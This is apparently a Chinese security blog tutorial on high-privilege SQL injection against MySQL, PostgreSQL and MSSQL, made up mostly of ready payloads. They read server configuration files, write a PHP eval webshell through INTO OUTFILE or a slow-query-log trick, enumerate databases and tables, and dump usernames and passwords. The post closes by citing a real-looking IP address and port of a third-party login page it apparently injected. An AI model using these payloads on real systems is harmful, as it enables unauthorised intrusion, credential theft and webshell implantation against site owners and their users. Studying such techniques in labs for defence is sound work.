 ![1645093889680-3cf9331e-511e-4787-9b3a-7c88e1e0ed8f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132246188-1958974073.png)

```plain
#知识点：
1、SQL注入-MYSQL数据库
2、SQL注入-MSSQL数据库
3、SQL注入-PostgreSQL数据库

#详细点：
Access无高权限注入点-只能猜解，还是暴力猜解
MYSQL，PostgreSQL，MSSQL高权限注入点-可升级读写执行等，还需要看具体有没有限制，能不能进行执行等等。
```

- #### MYSQL-root高权限读写注入

```plain
决定：连接的数据库用户
-读取文件：
UNION SELECT 1,load_file('d:/w.txt'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
```

![1645094020720-15ca1c67-4f8f-47e9-a828-c8ea32d90230.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303261-293150066.png)

```plain
数据库中正常读取文件：select load_file('d:/www.txt');
```

![1645094063862-0a2a37c0-4072-464d-ac5c-36b085da3016.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302319-261252932.png)

```plain
-写入文件：
UNION SELECT 1,'xxxx',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 into outfile 'd:/www.txt'
数据库写文件：select 'xxx' into outfile 'd:/1.txt';
```

![1645094093079-afe12744-b75a-4ace-a979-8a2151f2c026.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302421-603274635.png)

```plain
-路径获取：phpinfo,报错,字典等
https://blog.csdn.net/god_7z1/article/details/8725541
读取关键文件，可以在搜索关键函数等
读取关键配置文件：http://127.0.0.1:8081/web/mysql/news.php?id=1 UNION SELECT 1,load_file('D:\\phpstudy_pro\\WWW\\web\\mysql\\config\\conn.php'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
```

![1645094134449-87c0949c-52cb-40c1-9d59-a298b31059f8.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302510-1434426546.png)

```plain
Phpinfo :搜索语法：inurl:phpinfo
```

![1645094155844-bf37cc47-dc6d-4e0d-83be-f36d75072fb0.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302859-1012387135.png)

```plain
后门代码：
http://127.0.0.1:8081/web/mysql/news.php
?id=1 UNION SELECT 1,'<?php eval($_POST['x']);?>',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 into outfile 'D:\\phpstudy_pro\\WWW\\web\\mysql\\3.php'
```

![1645094204167-7b89ffa5-581c-45c4-8af5-65351a3c2943.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303162-1219520047.png)

```plain
-无法写入：secure_file_priv突破 v突破 注入中需要支持SQL执行环境，没有就需要借助
secure_file_priv会限制读写，如果有限制，则意味着只能在该盘符上进行操作。
phpmyadmin或能够直接连上对方数据库进行绕过，或者支持堆叠注入。
set global slow_query_log=1;
set global slow_query_log_file='shell路径';
select '<?php eval($_POST[A]);?>' or SLEEP(11);
访问shell路径，连接后门。
```

![1645094258153-067ee31d-6976-4910-ae1f-ede06442e60d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303177-397806947.png)

- #### PostgreSQL-高权限读写注入

```plain
-测列数：
order by 4
and 1=2 union select null,null,null,null
-测显位：第2，3
and 1=2 union select 'null',null,null,null 错误
and 1=2 union select null,'null',null,null 正常
and 1=2 union select null,null,'null',null 正常
and 1=2 union select null,null,null,'null' 错误
```

![1645094307341-6ed3ced5-33f0-4de9-b6e2-ce2647bd2d64.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302842-1289601990.png)

```plain
-获取信息：
and 1=2 UNION SELECT null,version(),null,null
and 1=2 UNION SELECT null,current_user,null,null
```

![1645094364551-baada60d-1aa3-4871-a9d6-8219ac3d0876.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303093-525659061.png)

```plain
and 1=2 union select null,current_database(),null,null
```

![1645094607076-41a43dae-ad87-4808-b618-4944bedbc824.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303332-1002270372.png)

```plain
-获取数据库名：
and 1=2 union select null,string_agg(datname,','),null,null from pg_database
```

![1645094739659-b36ef26a-b4f0-483c-baec-409b323a3362.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303063-1250319251.png)

```plain
-获取表名：
1、and 1=2 union select null,string_agg(tablename,','),null,null from pg_tables where schemaname='public'
2、and 1=2 union select null,string_agg(relname,','),null,null from pg_stat_user_tables
```

![1645094853779-ae4380f5-ce49-410d-9631-3df781be911f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303312-875727404.png)

```plain
-获取列名：
and 1=2 union select null,string_agg(column_name,','),null,null from information_schema.columns where table_name='reg_users'
```

![1645094853779-ae4380f5-ce49-410d-9631-3df781be911f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303879-1447463856.png)

```plain
-获取数据：
and 1=2 union select null,string_agg(name,','),string_agg(password,','),null from reg_users
```

![1645094897111-990734e9-eb09-467d-8516-1ddb9f2a0633.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303162-984439264.png)

```plain
参考：https://www.freebuf.com/sectool/249371.html
-补充-获取dba用户（同样在DBA用户下，是可以进行文件读写的）：
and 1=2 union select null,string_agg(usename,','),null,null FROM pg_user WHERE usesuper IS TRUE
```

![1645094943933-e918a70c-50ab-4112-82e0-b4b4b56fdfac.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303826-1023335221.png)

- #### MSSQL-sa高权限读写执行注入

```plain
-测列数：
order by 4
and 1=2 union all select null,null,null,null
-测显位：
and 1=2 union all select null,1,null,null
and 1=2 union all select null,null,'s',null
```

![1645094968419-84322941-5642-4224-9ac5-6a05e21a1cde.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303651-1887832285.png)

```plain
-获取信息：
@@version 获取版本信息
```

![1645095038343-e9c2d473-1c01-4ee6-9f16-95273eb4634d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303918-1241656079.png)

```plain
db_name() 当前数据库名字
user、system_user,current_user,user_name 获取当前用户名
```

![1645095163807-f7a1b1fe-5282-4e6f-a0da-b52935d763be.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132304176-1498498150.png)

```plain
@@SERVERNAME 获取服务器主机信息
```

![1645095360000-b423419d-7e6f-4f76-8063-71305b8e7311.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132304311-619414573.png)

```plain
and 1=2 union all select null,db_name(),null,null
-获取表名：
and 1=2 union all select null,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u'),null,null
union all select null,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u' and name not in ('manage')),null,null
```

![1645095396759-ae59da1f-6ab6-49e1-acb6-0c6fc6c3caf4.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132304328-724088393.png)

```plain
-获取列名：
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),1) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),2) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),3) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),4) from sysobjects),null,null
```

![1645095460609-1318e417-b05a-4f9f-902f-39ea38f024af.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132304355-541134119.png)

```plain
• -获取数据：
and 1=2 union all select null,username, password ,null from manage
```

- #### 结尾彩蛋-某Q牌违法登陆框注入

```plain
116.206.94.133:888
已经关闭。
```